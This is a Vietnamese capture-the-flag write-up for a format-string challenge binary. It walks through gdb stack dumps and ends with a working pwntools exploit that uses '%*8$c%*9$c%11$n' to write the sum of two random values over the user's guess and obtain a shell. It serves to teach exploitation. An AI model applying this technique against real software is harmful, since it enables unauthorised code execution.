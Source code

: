 Ta được cung cấp 1 file binary với tên bài fmt xmaster thì với hint là :

```
Use * to have a variable field width, equals to an signed integer on the stack, can combine with positional argument. Eg. %*10$c: print a number of characters equals to the 10th argument.
```

Giờ ta sẽ nhìn qua file binary được cung cấp và các chế độ bảo vệ


![image](https://user-images.githubusercontent.com/114044703/213352879-e9926848-6445-4a04-9af9-ce90505da6a8.png)

![image](https://user-images.githubusercontent.com/114044703/213352929-16afa3f6-655c-4344-a371-107803f3e389.png)

Vậy chúng ta sẽ làm việc với file binary 64 bit. Khi chạy thì chương trình sẽ yêu cầu ta nhập tên và con số may mắn. Nếu sai sẽ dừng chương trình.

![image](https://user-images.githubusercontent.com/114044703/213353820-28782d93-403b-41c6-aa46-94f2da3a3cfc.png)

Sau khi dịch chương trình bằng ghidra thì ta thấy chương trình sẽ lấy ran1 và ran2 từ "dev/urandom" sau đó nếu input = ran1 + ran2 thì sẽ thực thi system("/bin/sh").

#BUG: Ngay tại hàm in ra name không chứa format strings nên ta có thể nghĩ ra 2 cách khai thác chương trình:

Cách 1: Đè lên tổng ran1 và ran2 sao cho bằng với input ta ghi vào bằng cách sử dụng %n

Cách 2: Thay đổi input bằng với lại ran1+ran2 bằng cách sử dụng %n

Giờ ta sẽ debug chương trình và đặt break point ngay tại printf bị lỗi fmt và trước khi cộng 2 biến ran1 và ran2 để xác định vị trí của ran1 và ran2:

```
gef➤  r
Starting program: /home/kali/Downloads/kcsc/fmt/chall 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0x7ffff7fc1000'
warning: Expected absolute pathname for libpthread in the inferior, but got ./libc.so.6.
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
your name:
%7$p
you can guess a number,if you are lucky I will give you a gift:
123123

Breakpoint 1, 0x0000000000401345 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x206f6c6c        
$rdx   : 0x0               
$rsp   : 0x007fffffffdd80  →  0x0000000000000000
$rbp   : 0x007fffffffde20  →  0x0000000000000001
$rsi   : 0x6c6c6568        
$rdi   : 0x007fffffffddb0  →  0x000000000a7025 ("%p\n"?)
$rip   : 0x00000000401345  →  <main+271> call 0x4010f0 <printf@plt>
$r8    : 0x1999999999999999
$r9    : 0x0               
$r10   : 0x00000000402065  →  0x6c00206f6c6c6568 ("hello "?)
$r11   : 0x007ffff7c60770  →  <printf+0> endbr64 
$r12   : 0x007fffffffdf38  →  0x007fffffffe283  →  "/home/kali/Downloads/kcsc/fmt/chall"
$r13   : 0x00000000401236  →  <main+0> endbr64 
$r14   : 0x00000000403e18  →  0x00000000401200  →  <__do_global_dtors_aux+0> endbr64 
$r15   : 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdd80│+0x0000: 0x0000000000000000     ← $rsp
0x007fffffffdd88│+0x0008: 0x0000000300000000
0x007fffffffdd90│+0x0010: 0x000000000000bd67
0x007fffffffdd98│+0x0018: 0x0000000000005d99
0x007fffffffdda0│+0x0020: 0x000000000001e0f3
0x007fffffffdda8│+0x0028: 0x007fffffffdda0  →  0x000000000001e0f3
0x007fffffffddb0│+0x0030: 0x000000000a7025 ("%p\n"?)     ← $rdi
0x007fffffffddb8│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401339 <main+259>       lea    rax, [rbp-0x70]
     0x40133d <main+263>       mov    rdi, rax
     0x401340 <main+266>       mov    eax, 0x0
 →   0x401345 <main+271>       call   0x4010f0 <printf@plt>
   ↳    0x4010f0 <printf@plt+0>   endbr64 
        0x4010f4 <printf@plt+4>   bnd    jmp QWORD PTR [rip+0x2f35]        # 0x404030 <printf@got.plt>
        0x4010fb <printf@plt+11>  nop    DWORD PTR [rax+rax*1+0x0]
        0x401100 <close@plt+0>    endbr64 
        0x401104 <close@plt+4>    bnd    jmp QWORD PTR [rip+0x2f2d]        # 0x404038 <close@got.plt>
        0x40110b <close@plt+11>   nop    DWORD PTR [rax+rax*1+0x0]
────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x007fffffffddb0 → 0x000000000a7025 ("%p\n"?),
   $rsi = 0x0000006c6c6568,
   $rdx = 0x00000000000000
)
────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x401345 in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401345 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  tele
0x007fffffffdd80│+0x0000: 0x0000000000000000     ← $rsp
0x007fffffffdd88│+0x0008: 0x0000000300000000
0x007fffffffdd90│+0x0010: 0x000000000000bd67
0x007fffffffdd98│+0x0018: 0x0000000000005d99
0x007fffffffdda0│+0x0020: 0x000000000001e0f3
0x007fffffffdda8│+0x0028: 0x007fffffffdda0  →  0x000000000001e0f3
0x007fffffffddb0│+0x0030: 0x000000000a7025 ("%p\n"?)     ← $rdi
0x007fffffffddb8│+0x0038: 0x0000000000000000
0x007fffffffddc0│+0x0040: 0x0000000000000000
0x007fffffffddc8│+0x0048: 0x0000000000000000
gef➤  ni
hello 0x300000000
```

Vậy ```0x007fffffffdd88│+0x0008: 0x000000030000000``` là stack tại vị trí thứ 7.

```
$rax   : 0x5d99            
$rbx   : 0x0               
$rcx   : 0x2e2e2e2065657320 (" see ..."?)
$rdx   : 0xbd67            
$rsp   : 0x007fffffffdd80  →  0x0000000000000000
$rbp   : 0x007fffffffde20  →  0x0000000000000001
$rsi   : 0x7320656d2074656c ("let me s"?)
$rdi   : 0x007fffffffd820  →  0x007ffff7c620d0  →  <funlockfile+0> endbr64 
$rip   : 0x0000000040136c  →  <main+310> add rdx, rax
$r8    : 0x0               
$r9    : 0x007fffffffdc50  →  "6c6c6568"
$r10   : 0x0000000040206c  →  "let me see ..."
$r11   : 0x246             
$r12   : 0x007fffffffdf38  →  0x007fffffffe283  →  "/home/kali/Downloads/kcsc/fmt/chall"
$r13   : 0x00000000401236  →  <main+0> endbr64 
$r14   : 0x00000000403e18  →  0x00000000401200  →  <__do_global_dtors_aux+0> endbr64 
$r15   : 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdd80│+0x0000: 0x0000000000000000     ← $rsp
0x007fffffffdd88│+0x0008: 0x0000000300000000
0x007fffffffdd90│+0x0010: 0x000000000000bd67
0x007fffffffdd98│+0x0018: 0x0000000000005d99
0x007fffffffdda0│+0x0020: 0x000000000001e0f3
0x007fffffffdda8│+0x0028: 0x007fffffffdda0  →  0x000000000001e0f3
0x007fffffffddb0│+0x0030: 0x000000000a7025 ("%p\n"?)
0x007fffffffddb8│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401359 <main+291>       call   0x4010f0 <printf@plt>
     0x40135e <main+296>       mov    rdx, QWORD PTR [rbp-0x90]
     0x401365 <main+303>       mov    rax, QWORD PTR [rbp-0x88]
●→   0x40136c <main+310>       add    rdx, rax
     0x40136f <main+313>       mov    rax, QWORD PTR [rbp-0x80]
     0x401373 <main+317>       cmp    rdx, rax
     0x401376 <main+320>       jne    0x4013b1 <main+379>
     0x401378 <main+322>       lea    rax, [rip+0xd01]        # 0x402080
     0x40137f <main+329>       mov    rdi, rax
────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x40136c in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40136c → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤ 
```
-> ran1 nằm ở vị trí thứ 8 trên stack, ran2 nằm ở vị trí thứ 9
Vậy cách 1 không thể thực hiện được vì tổng 2 ran k được lưu vào stack

Cách 2: ta thấy 
hex(123123)=0x000000000001e0f3 vậy input là ngay tại 

```
0x007fffffffdda0│+0x0020: 0x000000000001e0f3                    
0x007fffffffdda8│+0x0028: 0x007fffffffdda0  →  0x000000000001e0f3
```
Vậy ta có thể dùng địa chi thứ 2 là 0x007fffffffdda8 để ghi đè vì ta không cần cung cấp thêm địa chỉ cho %n nữa

Ý Tưởng khai thác: sử dụng %*$c mà đề đã gợi ý tại vị trí stack thứ 8 và thứ 9 để in ra số ký tự bằng với giá trị ran1+ran2 vào vị trí thứ 11 trên stack đồng thời là input

Ta sẽ khai thác với những dữ kiện trên :

```
from pwn import *
t=process('./chall')
#gdb.attach(t,api=True)
payload=b"%*8$c%*9$c%11$n_"
t.sendlineafter(b"your name:",payload)
t.sendlineafter(b"give you a gift",b"123123")
t.interactive()
```

Và sau khi chạy:

![image](https://user-images.githubusercontent.com/114044703/213358395-d02c085d-64fc-4fb1-9cd1-1687ee2b8b62.png)



